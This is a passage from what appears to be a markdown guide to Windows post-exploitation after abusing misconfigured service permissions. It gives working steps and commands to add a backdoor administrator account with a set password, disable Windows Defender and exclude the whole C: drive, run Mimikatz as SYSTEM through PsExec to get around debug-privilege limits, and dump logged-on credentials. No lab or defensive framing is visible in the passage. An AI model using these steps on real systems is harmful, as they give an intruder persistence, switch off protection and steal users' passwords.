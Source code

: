 These steps can help you exploit services with misconfigured permissions, allowing execution of commands or payloads with the service’s privileges.
---

### 5. Create a Helpdesk User with Admin Rights
Once elevated, create a new user and add them to the Administrators group:
```bash
net user helpdesk L3tm3!n /add
net localgroup Administrators helpdesk /add
```

### 6. Disable Windows Defender and Create an Exclusion
- Log in as **helpdesk**.
- Disable Windows Defender through the GUI.
- Add an exclusion for `C:/`.

---

## Downloading and Running Tools for Exploitation

### 7. Download Mimikatz and Sysinternals Suite
- **Mimikatz**: For credential extraction.
- **Sysinternals Suite**: For monitoring and service enumeration.


#### 8. **Run Mimikatz with Elevated Privileges**
Open **Mimikatz** and attempt to enable privilege escalation:

```bash
mimikatz.exe
privilege::debug
```

- **Note:** If `privilege::debug` fails because debug privileges are disabled for the administrator account, you can attempt to bypass this restriction using **PsExec** to run Mimikatz as the `SYSTEM` user:

```bash
psexec -s -i cmd.exe
```

- This command launches a new command prompt with `SYSTEM` privileges, allowing you to run `mimikatz` from there, potentially bypassing the debug privilege restriction:

```bash
mimikatz.exe
```

- Running Mimikatz from a `SYSTEM` context can help you access features that require higher privileges, even if the `privilege::debug` command is blocked.
### 9. Dump Credentials
Extract user credentials:
```bash
sekurlsa::logonpasswords
```

---